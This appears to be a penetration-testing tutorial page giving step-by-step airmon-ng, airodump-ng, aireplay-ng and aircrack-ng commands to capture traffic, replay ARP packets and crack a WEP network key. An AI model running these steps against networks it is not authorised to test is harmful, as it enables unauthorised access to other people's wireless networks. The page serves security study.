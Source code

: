 # Cracking WEP

## Attack tree

```text
1 Verify wireless NIC
2 Discover networks with Airodump-ng
3 Capture traffic with Airodump-ng
4 Associate with access point and replay traffic
5 Crack the WEP key
```

## Example

### Verify wireless NIC

View and document wireless adapter:

```text
# airmon-ng
```

Create an interface that runs in monitor mode:

```text
# airmon-ng start wlan0
```
Write down interface name (something like `wlan0mon`)

### Discover networks with Airodump-ng

Display a list of wireless networks (Ctrl+C to stop):

```text
# airodump-ng wlan0mon
```

* The BSSID is the MAC address of the wireless access point that has been detected.
* PWR is the power level of the access point. The lower the number, the better the signal strength to that access point. 
This is a way to determine how close you are to the access point (unless the administrator changed the power level).
* CH is the channel the access point is operating on, such as 1, 6, or 11.
* ENC is encryption type used, such as WEP, WPA, or WPA2.
* CIPHER is the cipher being used, such as TKIP, CCMP, or WEP.
* ESSID is the name of the wireless network.

At the bottom of the output are the MAC addresses of the access points and the clients (stations) connected to those 
access points.

### Capture traffic with Airodump-ng

In a new terminal window, capture traffic for a specific wireless network:

```text
# airodump-ng -c <channelnumber> -w <filename> --bssid <MAC address of access point> wlan0mon
```

### Associate with access point and replay traffic

To crack the WEP encryption, a large number of packets (approximately 100.000 packets) are needed. 

Associate with the access point first:

```text
# aireplay-ng --fakeauth 0 -a <bssid of the access point> wlan0mon
```

Replay ARP traffic:

```text
# aireplay-ng --arpreplay -b <bssid of the access point> wlan0mon
```

### Crack the WEP key

Specify the .cap file by the filename created earlier, but add a dash and a 01 because it is
the first time.
Just leave it running to keep trying until it cracks the WEP password:

```text
# aircrack-ng <filename.cap>
```

Once the password is cracked, a "KEY FOUND!" appears at the bottom of the
output followed by the encryption key in hex format within square brackets.
Copy this value without the square brackets and remove the
colons (:) before entering the key to connect to the wireless network.

## Tools

* [airmon-ng](https://aircrack-ng.org/doku.php?id=airmon-ng)
* [airodump-ng](https://aircrack-ng.org/doku.php?id=airodump-ng)
* [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)

## Resources

* [Wired Equivalent Privacy](https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy)